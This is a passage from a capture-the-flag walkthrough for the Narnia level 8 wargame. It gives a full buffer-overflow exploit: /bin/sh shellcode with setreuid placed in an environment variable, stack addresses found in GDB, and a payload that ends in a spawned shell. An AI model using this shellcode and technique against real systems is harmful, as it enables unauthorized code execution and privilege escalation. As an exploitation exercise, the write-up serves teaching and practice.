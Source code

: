 Perfect ! Now, as the buffer is too small for a shellcode, we will use an environment variable and return to it. I used the following one :

```
export SHELLCODE=$(printf "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80")
```

Now, we’ll try to execute it in GDB. Note, that the addresses might have shifted so make sure to repeat the previous steps to fix the addresses of our payload.

```
(gdb) run $(python -c 'print 20 * "A" + "\x47\xd8\xff\xff" + "AAAA" + "CCCC"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x47\xd8\xff\xff" + "AAAA" + "CCCC"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd63c:	0x08048550	0xffffd644	0x41414141	0x41414141
0xffffd64c:	0x41414141	0x41414141	0x41414141	0xffffd847
0xffffd65c:	0x41414141	0x43434343	0xffffd847	0x00000000
0xffffd66c:	0xf7e2a286	0x00000002	0xffffd704	0xffffd710
```

Then, we will retreive our environment variable **SHELLCODE** by repeating the following command `x/s *((char **)environ)`.

```
(gdb) x/s *((char **)environ)
0xffffd861:	"LC_ALL=en_US.UTF-8"

...[removed]...

(gdb) x/s *((char **)environ)
0xffffde75:	"LANG=en_US.UTF-8"
(gdb) x/s *((char **)environ)
0xffffde86:	"OLDPWD=/tmp"
(gdb) x/s *((char **)environ)
0xffffde92:	"SHELLCODE=1\300\061\333\061ə\260\244̀j\vXQh//shh/bin\211\343Q\211\342S\211\341̀"
```

Finally, we complete the payload :

```
(gdb) run $(python -c 'print 20 * "A" + "\x40\xd8\xff\xff" + "AAAA" + "\x92\xde\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x40\xd8\xff\xff" + "AAAA" + "\x92\xde\xff\xff"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16xw $esp
0xffffd63c:	0x08048550	0xffffd644	0x41414141	0x41414141
0xffffd64c:	0x41414141	0x41414141	0x41414141	0xffffd840
0xffffd65c:	0x41414141	0xffffde92	0xffffd840	0x00000000
0xffffd66c:	0xf7e2a286	0x00000002	0xffffd704	0xffffd710
(gdb) conti
Continuing.
AAAAAAAAAAAAAAAAAAAA@���AAAA����@���
process 10478 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
$ 
```

